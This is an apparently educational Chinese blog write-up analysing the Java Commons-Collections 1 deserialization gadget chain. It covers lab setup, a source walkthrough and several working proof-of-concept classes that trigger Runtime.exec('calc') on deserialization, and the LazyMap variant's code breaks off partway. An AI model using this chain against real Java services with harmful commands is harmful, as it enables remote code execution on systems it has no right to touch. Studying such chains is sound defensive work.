---
title: "Java反序列化CC1链"
date: 2025-05-27T18:28:41+08:00
summary: "Java反序列化CC1链"
url: "/posts/Java反序列化CC1链/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

环境搭建参考文章：

https://blog.csdn.net/weixin_49047967/article/details/134763883

https://www.cnblogs.com/1vxyz/p/17284838.html

https://www.freebuf.com/articles/web/383152.html

## 0x01漏洞描述

CC1全称Commons-Collections1，是利用了Apache Commons项目中Commons-Collections库的一个反序列化漏洞，所以commons-collections组件反序列化漏洞的反射链也称为CC链

Apache Commons Collections是一个扩展了Java标准库里的Collection结构的第三方基础库，它提供了很多强大的数据结构类型和实现了各种集合工具类。作为Apache开放项目的重要组件，Commons Collections被广泛的各种Java应用的开发，⽽正 是因为在⼤量web应⽤程序中这些类的实现以及⽅法的调⽤，导致了反序列化⽤漏洞的普遍性和严重性。

## 0x02影响版本&环境搭建

**jdk < 8u71**

**CommonsCollections <= 3.2.1**

因为CC1链在jdk 8u71后就修复了 ，在高版本这条链子最后的annotationInvocationHandler类readObject之后，memberValues小版本有值，高版本是空

因此我们复现就利用 8u65的版本

https://www.oracle.com/cn/java/technologies/javase/javase8-archive-downloads.html


下载安装后配置环境变量，之后查看一下版本就行


然后去 下载[openjdk](https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4)，下载后解压，再进入到相应JDK的文件夹中，里面本来就有个src.zip的压缩包，我们解压这个src到src文件夹，之后把之前源码包(idk-af660750b2f4.zip)中/src/share/classes下的sun文件夹拷贝到src文件夹中去。


然后进入IDEA，在设置中找到项目结构



然后我们新建一个Maven（照着选就行）



然后导入commons collections maven依赖

```xml
  <dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
  </dependency>
```

在pom.xml添加依赖，完整代码是这样的

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd">
  <modelVersion>4.0.0</modelVersion>
  <groupId>org.example</groupId>
  <artifactId>CC1</artifactId>
  <packaging>war</packaging>
  <version>1.0-SNAPSHOT</version>
  <name>CC1 Maven Webapp</name>
  <url>http://maven.apache.org</url>
  <dependencies>
    <dependency>
      <groupId>commons-collections</groupId>
      <artifactId>commons-collections</artifactId>
      <version>3.2.1</version>
    </dependency>
  </dependencies>
  <build>
    <finalName>CC1</finalName>
  </build>
</project>

```

然后点击代码中的一个同步maven配置就行



完成之后整个目录是这样的




## 0x03源码分析

先放CC1链

```java
/*
	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()
	Requires:
		commons-collections
 */
```

看不懂？我也看不懂！我们一步步往下看吧

### InvokerTransformer#transform()

 cc1链中的出口是commons collections库中的transformer接口，这个接口里边有个transform方法。

```
org.apache.commons.collections.Transformer
```

我们看看这个接口



找一下实现了这个接口的类



通过查看继承层次结构图，我们找到了InvokerTransformer类(当然肯定不止这一个类),在第119行，InvokerTransformer类重写了transform方法，并且该类还接入了Serializable序列化接口。

```java
    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);
                
        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
        }
    }
```

我们先看构造方法方法

```java
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }
```

构造方法中接收一个方法名，所调用方法的参数类型，所调用方法的参数值，简单来说就是一个方法名，一个方法形参类型，一个方法传递参数值

然后重写的tranform方法，解释一下

```java
    public Object transform(Object input) {//接收一个对象输入
        
        //检测输入
        if (input == null) {
            return null;
        } else {
            try {
                //获取对象的原型类
                Class cls = input.getClass();    
                //获取该原型类的方法名
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                //invoke调用类的方法，传入操作对象和参数，并返回方法调用的利用值
                return method.invoke(input, this.iArgs);
            } catch (NoSuchMethodException var4) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
            } catch (IllegalAccessException var5) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
            } catch (InvocationTargetException ex) {
                throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
            }
        }
    }
```

这么明显可以看到出现了反射机制的利用，这里通过获取一个对象并利用反射去获取并调用其原型类的方法，这里就是我们的利用点了

因此我们可以通过 InvokerTransformer类的 transform 方法中invoke调用 Runtime类getRuntime对象的exec实现 rce

写个poc

```java
import org.apache.commons.collections.functors.InvokerTransformer;

public class poc {
    public static void main(String[] args) {
        Runtime runtime = Runtime.getRuntime();

        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        invokerTransformer.transform(runtime);
    }
}
```

这里根据构造函数的三个参数依次填入就行

效果如下



成功执行命令calc

另外这里利用反射也是可以的

```java
import org.apache.commons.collections.functors.InvokerTransformer;

import java.lang.Class;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;

public class poc{
    public static void main(String[] args) throws Exception {
        Runtime rt = Runtime.getRuntime();

        //反射获取InvokerTransformer
        Class c = Class.forName("org.apache.commons.collections.functors.InvokerTransformer");
        Constructor ctor = c.getDeclaredConstructor(String.class, Class[].class,Object[].class);
        InvokerTransformer invokerTransformer = (InvokerTransformer) ctor.newInstance("exec", new Class[]{String.class}, new Object[]{"calc"});
        Method m = c.getDeclaredMethod("transform", Object.class);
        m.invoke(invokerTransformer, rt);

    }
}
```

由此我们就找到了链子的出口，接下来就是一步步回溯，寻找合适的子类，构造漏洞链，找到直接到达重写了readObject的类

### TransformedMap#checkSetValue()

我们继续查找一下调用tranform()方法的类


发现TransformedMap类的 checkSetValue() 里使用了 valueTransformer调用transform()



```java
protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

这里因为是protected受保护类型，只能内部类访问，权限不够，我们跟进valueTransformer看看


发现valueTransformer也是受保护类型的属性，但是这个参数是否可控呢？我们跟进一下这个参数的用法



发现在TransformedMap类中的decorate方法实例化了TransformedMap对象，并且在这么多方法中只有该方法是public公共属性的

```java
    public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```

所以猜想我们可以利用这个方法去实例化一个TransformedMap对象，从而传入想要的valueTransformer的值,也就是说，我们可以控制decorate()方法内的valueTransformer的值

我们把这个类中需要用的方法都提出来

```java
protected final Transformer valueTransformer;

//构造方法
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    super(map);
    this.keyTransformer = keyTransformer;
    this.valueTransformer = valueTransformer;//valueTransformer在这里被赋值
}

//decorate方法
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
return new TransformedMap(map, keyTransformer, valueTransformer);
}

//checkSetValue方法
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

类TransformedMap提供该decorate方法给外部进行TransformedMap构造,那我们给 valueTransformer 赋值 构造的InvokerTransformer实例 就可以通过 valueTransformer.transform(value)实现 InvokerTransformer.transform(value)从而 rce

然后我们构造链子调用checkSetValue方法

```java
TransformedMap::decorate()->TransformedMap::checkSetValue()->InvokerTransformer::transform()
```

```java
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.Class;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class poc {
    public static void main(String[] args) throws Exception {
        Runtime runtime = Runtime.getRuntime();

        //反射获取InvokerTransformer
        Class c = Class.forName("org.apache.commons.collections.functors.InvokerTransformer");
        Constructor constructor = c.getDeclaredConstructor(String.class, Class[].class, Object[].class);
        InvokerTransformer invokerTransformer = (InvokerTransformer) constructor.newInstance("exec", new Class[]{String.class}, new Object[]{"calc"});

        //调用decorate方法
        Class c2 = Class.forName("org.apache.commons.collections.map.TransformedMap");
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> tm = TransformedMap.decorate(map, null, invokerTransformer);

        Method m = c2.getDeclaredMethod("checkSetValue", Object.class);
        m.setAccessible(true);
        m.invoke(tm, runtime);

    }
}
```

这里的话因为decorate是静态方法，可以直接类名＋方法名调用，因为这里的checkSetValue是受保护属性，所以需要set一下权限



接下来寻找checkSetValue()，发现有一个用法，跟进看一下

### AbstractInputCheckedMapDecorator#setValue()



```java
public Object setValue(Object value) {
    value = parent.checkSetValue(value);
    return entry.setValue(value);
}
```

发现只有父类 AbstractInputCheckedMapDecorator抽象类里的 MapEntry 的setValue() 调用了checkSetValue()，并且这里的setValue()方法是公共的，所以可以直接打poc，不过这里有个方法可以助力一下

```java
        protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
            super(entry);
            this.parent = parent;
        }
```

 在MapEntry构造方法中，Entry代表的是Map中的一个键值对，而我们在MapEntry中我们可以看到有setValue方法，正常来说，只要遍历了被修饰过的map，就能走到MapEntry类，也就会调用MapEntry类的setValue方法

然后我们发现MapEntry类其实是继承了AbstractMapEntryDecorator父类的，我们跟进一下这个AbstractMapEntryDecorator类



MapEntry的父类AbstractMapEntryDecorator又引入了Map.Entry接口，所以我们只需要进行常用的Map遍历，就可以调用setValue()

所以我们的poc

```java
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class poc{
    public static void main(String[] args) throws Exception {
        Runtime rt = Runtime.getRuntime();

        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});

        HashMap<Object ,Object> map = new HashMap<>();
        Map<Object, Object> tm = TransformedMap.decorate(map, null, invokerTransformer);

        map.put("key","value");

        for(Map.Entry entry: tm.entrySet()) {
            entry.setValue(rt);
        }
    }
}
```

这里的话解释一个很重要的代码

```java
map.put("key","value");
for(Map.Entry entry:tm.entrySet()) {
    entry.setValue(rt);
}
```

这里的话需要调试TransformedMap中没有entrySet方法，但是其继承的父类有



看到isSetValueChecking()返回true，那么会进入if语句，我们跟进new



用内部静态类的构造器EntrySet() 实例化EntrySet类，其中parent是对象TransformedMap

当调用 `transformedMap.entrySet()` 时，返回的 `Entry` 对象并不是普通的 `HashMap.Entry`，而是 **`TransformedMap.MapEntry`**（`AbstractInputCheckedMapDecorator` 的内部类）。

对于每个遍历到的键值对，都会进行setValue方法的调用 。在普通的Map中，这个方法通常用于修改值。但是在经过 TransformedMap装饰后，setValue方法的行为由装饰器定义，也就是说本来会调用的map类中的setValue的方法，但是我们使用的是TransformedMap，TransformedMap由于继承了AbstractInputCheckedMapDecorator类，而AbstractInputCheckedMapDecorator抽象类中的MapEntry类装饰了map类中的setValue的方法，所以我们实际调用的MapEntry中的setValue()方法（因为MapEntry类实际上是重写父类AbstractMapEntryDecorator的setValue()方法）



好好理解好好消化，这里我也想了很久



因为前面的东西很多，所以这里先做个总结

```text
为了找到可以触发InvokerTransformer::transform()方法的类方法，我们找到了TransformedMap::checkSetValue()方法，但是因为checkSetValue()方法中的valueTransformer是protected受保护属性，无法直接调用，所以我们想到了利用TransformedMap::decorate()方法去实例化对象从而控制valueTransformer的值，因为decorate()需要一个map实例，所以我们实例化了一个HashMap的map，并把这个map传入然后实例化了一个Map类型的transformedmap装饰器对象，之后我们对这个对象进行遍历，在遍历过程中我们可以调用setValue方法，但是由于MapEntry重写了setValue方法，而TransformedMap又继承了该父类，所以调用了MapEntry::setValue()方法，从而调用checkSetValue()方法
```

到此我们的链子就是

```java
MapEntry::setValue->TransformedMap::checkSetValue()->InvokerTransformer::transform()
```

### AnnotationInvocationHandler#readObject()

然后我们继续往前走，寻找setValue方法

```
sun.reflect.annotation.AnnotationInvocationHandler
```



看到readObject()方法了，看到那一刻我真的喜极而泣了，终于到源头了


```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```

我们找到这个类的构造函数

```java
    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }
```

它接受两个参数，第一个参数是Class，它继承了Annotation，Annotation在java里是注解。即@Override，第二个参数是Map类型的，那我们可以把设计好的TransformedMap传进去

这里一下子就很明朗了，memberValues可控，并且从readObject方法中发现该属性是一会要进行map遍历的，所以也就省去了我们之前自己做的遍历，那么我们就可以去实现`memberValue.setValue()`方法

但是这里需要注意一个问题



这里可以发现，在定义该类的时候并没有说明是public公共类，所以说明这个类只能在sun.reflect.annotation这个本包下被调用，我们要想在外部调用，需要用到**反射**来解决

所以我们的链子是

```
AnnotationInvocationHandler::readObject()->MapEntry::setValue()->TransformedMap::checkSetValue()->InvokerTransformer::transform()
```

那我们动手写一下poc

```java
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.Class;
import java.util.HashMap;
import java.util.Map;

public class poc{
    public static void main(String[] args) throws Exception {
        Runtime rt = Runtime.getRuntime();

        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});

        HashMap<Object ,Object> map = new HashMap<>();
        Map<Object, Object> tm = TransformedMap.decorate(map, null, invokerTransformer);

        map.put("key","value");

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Override.class, tm);
        //System.out.println(o);
        serialize(o);
        unserialize("CC1.txt");

    }
    public static void serialize(Object object)throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC1.txt"));
        oos.writeObject(object);
        oos.close();
    }
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
        ois.close();
    }
}
```

但是这里并没有弹出是为什么呢？

### CC1深入探讨

#### Runtime序列化的问题

**解决Runtime没有序列化的问题**

在调试的过程中我发现了Runtime类并没有被序列化，这是为什么呢？我们进入这个类看一下



可以看到该类并没有接入序列化接口，所以可能导致了他无法被序列化，但是可以运用反射来获取它的原型类，它的原型类Class是存在serializable接口，可以序列化的

然后也可以看到这里getRuntime()会返回currentRuntime，而currentRuntime就是一个新的Runtime()实例，所以我们可以利用反射去调用这个方法从而拿到一个Runtime()实例

所以我们试着反射写一下

```java
import java.lang.reflect.Method;
import java.lang.Class;

public class poc {
    public static void main(String[] args) throws Exception {
        //反射调用getRuntime方法
        Class rc = Class.forName("java.lang.Runtime");
        Method getRuntime = rc.getDeclaredMethod("getRuntime", null);
        //利用getRuntime方法创建实例
        Runtime rt = (Runtime) getRuntime.invoke(null, null);

        //反射调用exec方法
        Method exec = rc.getDeclaredMethod("exec", String.class);
        exec.invoke(rt,"calc");
    }
}
```



基于这个原理，我们试着用transform()方法实现上述代码

```java
import org.apache.commons.collections.functors.InvokerTransformer;

import java.lang.Class;
import java.lang.reflect.Method;

public class poc{
    public static void main(String[] args) throws Exception {
//        //反射调用getRuntime方法
//        Class rc = Class.forName("java.lang.Runtime");
//        Method getRuntime = rc.getDeclaredMethod("getRuntime", null);
//        //利用getRuntime方法创建实例
//        Runtime rt = (Runtime) getRuntime.invoke(null, null);
//
//        //反射调用exec方法
//        Method exec = rc.getDeclaredMethod("exec", String.class);
//        exec.invoke(rt,"calc");

        //利用transform方法获取getRuntime的方法
        Method getRuntime = (Method) new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class},new Object[] {"getRuntime",null}).transform(Runtime.class);

        //利用transform方法获取invoke方法
        Runtime runtime = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}).transform(getRuntime);

        //利用transform方法获取exec方法执行calc命令
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(runtime);
    }
}
```

我们看看这几条tranform通过反射获取方法的方法，但是这里如果参数多了的话就很麻烦，然后发现有一个ChainedTransformer 类正好可以干这个，我们看一下


我们看一下构造函数

```java
    public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }
```

所以需要传一个Transformer[]数组，那我们重新用ChainedTransformer实现一下

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class poc {
    public static void main(String[] args) throws Exception {
        Class runtime = Class.forName("java.lang.Runtime");

        Transformer[] Transformer = new Transformer[]{
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformer);
        chainedTransformer.transform(runtime);
    }
}
```



然后修改poc

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.Class;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class poc {
    public static void main(String[] args) throws Exception {
        Class runtime = Class.forName("java.lang.Runtime");

        Transformer[] Transformer = new Transformer[]{
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformer);

        HashMap<Object,Object> map = new HashMap<>();
        map.put("key", "value");
        Map<Object,Object> transformermap = TransformedMap.decorate(map,null,chainedTransformer);
        
        Class A = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = A.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object object = constructor.newInstance(Override.class,transformermap);
        serialize(object);
        unserialize("CC1.txt");

    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC1.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```

#### 关于两个if的问题

**解决setValue()方法无法执行的原因**

```java
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
```

其实为什么这里没法执行，我们看完整代码



这里可以看到在setValue之前还有两层if语句，要想成功执行这个代码，我们就得满足两层if语句的条件

本来想打断点调试的，但是不知道为啥， 我的idea一直跳不到readObject断点的地方，给infer师傅调他直接就跳了。。。估计是idea的问题，得重新装一个

服了，装好后还是不行，只能看师傅的图了

调试的时候发现memberType的值为空



我们看看这个参数是怎么来的

```java
Class<?> memberType = memberTypes.get(name);
```

这里的话会调用memberTypes的get方法，参数为name，我们看看memberTypes是怎么来的

```java
Map<String, Class<?>> memberTypes = annotationType.memberTypes();
```

memberTypes是通过annotationType调用memberTypes方法而来的，我们继续跟进

```java
AnnotationType annotationType = null;
annotationType = AnnotationType.getInstance(type);
```

这里的话就是获取一个注解类型实例了，也就是我们的Overried

然后在memberTypes中获取了注释里的值。



所以我们换一个有值的注解，那我们必须一个满足条件的有成员方法的Class，同时我们的Map里的key值还要改为这个成员方法名字。

```java
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
if (memberType != null) {}
```

从这里可以看出其实memberValue是我们传入的map键值对，而name就是我们键值对中的key键

而 Target里有 value方法。



所以这里我们修改Override.class为Target.class，然后更改Map中的Key为这个方法名value



然后底下那个if 判断 `if (!(memberType.isInstance(value) ||value instanceof ExceptionProxy))`，这里不用说肯定是满足的，能进来，所以我们的poc改成

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.Class;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class poc {
    public static void main(String[] args) throws Exception {
        Class runtime = Class.forName("java.lang.Runtime");

        Transformer[] Transformer = new Transformer[]{
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformer);

        HashMap<Object,Object> map = new HashMap<>();
        map.put("value", "value");

        Map<Object,Object> transformermap = TransformedMap.decorate(map,null,chainedTransformer);
        Class A = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = A.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object object = constructor.newInstance(Target.class,transformermap);
        serialize(object);
        unserialize("CC1.txt");

    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC1.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```

现在能正常通过两个if语句了，但是我们可以看到这里的setValue中的参数是固定的无法修改，那这个问题该怎么解决呢？

#### setValue里的value不可控的问题

由于每次给setValue的值都被修改，这显然不符合我们的期望。于是查找transform()的实现方法，发现存在一个类ConstantTransformer



这里他会返回一个固定的值，我们看看构造方法

```java
    public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }
```

可控且public，那么我们直接用这个吧

```
AnnotationInvocationHandler::readObject()->TransformedMap::setValue()->TransformedMap::checkSetValue()->chainedTransformer::transform()->InvokerTransformer::transform()
```

## 0x04最终的poc&&链子

### 最终的POC1

```java
package POC.CC1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception {

        //实例化Runtime对象并调用exec方法执行命令
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class}, new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        //Map类的构建和修饰
        HashMap<Object,Object> map = new HashMap<>();
        //满足readObject中Target注解的value方法
        map.put("value","aaa");
        Map<Object,Object> transformermap = TransformedMap.decorate(map,null,chainedTransformer);

        //遍历map触发setValue方法
        Class A = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = A.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class,transformermap);
        serialize(o);
        unserialize("CC1.txt");
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC1.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```

至此链子就差不多做完了

### 最终的链子1

https://infernity.top/2024/04/02/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-CC1%E9%93%BE/#%E9%93%BE%E5%AD%90%E6%80%9D%E8%B7%AF

```java
AnnotationInvocationHandler
	-> readObject()
		-> setValue()

TransformedMap
    -> MapEntry类
    	-> setValue()
	-> checkSetValue()
	
ChainedTransformer类
	-> transform(Transformers[])
    
ConstantTransformer类
	-> transform(Runtime.class)

InvokerTransformer类
	-> transform(Runtime.class)
		-> getClass()
		-> getMethod()
		-> invoke()
			->exec()
```

另外还需要补充一个点，就是LazyMap利用链的触发

## LazyMap利用链的触发

https://infernity.top/2024/04/17/JAVA%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E5%8F%A6%E4%B8%80%E6%9D%A1CC1%E9%93%BE/

上面的CC1链是利用TransformedMap的checkSetValue方法来调用ChainedTransformer.transform

而另一种写法是利用LazyMap.get方法走动态代理来调用ChainedTransformer.transform

 LazyMap 的作用是“懒加载”，在get找不到值的时候，它会调用 factory.transform 方法去获取一个值，我们可以利用此来执行整个transform的整个利用过程，然后如何触发get方法的话，刚好之前的在`AnnotationInvocationHandler`类的`invoke`方法有调用到get

### AnnotationInvocationHandler#invoke触发get



并且这里的memberValues是可控的，那我们看看get方法

### LazyMap#get()触发transform



可以看到这里能调用transform方法，并且这个factory是可控的，也就是说到时候我们把factory的值传成ChainedTransformer，然后走进那个if里面就可以

那该如何触发invoke呢

在反序列化过程中，`Proxy` 代理对象的方法会被自动调用，而这些调用会被转发到 `AnnotationInvocationHandler#invoke()` 方法中。

因此不难想到将`AnnotationInvocationHandler`用`Proxy`进行代理，那么在`readObject`的时候，只要调用任意方法，就会进入到 

`AnnotationInvocationHandler#invoke` 方法中，进而触发我们的 `LazyMap#get`

所以整条链的思路就是

### 最终的链子2



所以最终的poc

### 最终的POC2

```java
package POC.CC1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1plus {
    public static void main(String[] args) throws Exception {

        //实例化Runtime对象并调用exec方法执行命令
        Transformer[] Transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        Transformer chainedTransformer = new ChainedTransformer(Transformer);

        //传入factory为chainedTransformer
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);

        //Proxy动态代理
        Class handler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructorhandler = handler.getDeclaredConstructor(Class.class, Map.class);
        constructorhandler.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructorhandler.newInstance(Override.class,lazyMap);
